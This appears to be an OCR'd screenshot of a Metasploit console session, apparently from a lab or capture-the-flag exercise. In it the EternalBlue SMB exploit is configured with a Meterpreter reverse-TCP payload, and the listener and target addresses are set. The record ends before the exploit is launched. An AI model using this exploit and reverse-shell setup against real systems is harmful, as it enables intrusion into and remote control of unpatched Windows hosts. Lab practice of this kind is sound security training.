 msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                              Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Sta
                                             ndard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 ta
                                             rget machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.43.196   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.66.67.154
LHOST => 10.66.67.154
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.150.150.242
RHOST => 10.150.150.242
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.150.150.242   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                              Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Sta
                                             ndard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 ta
                                             rget machines.
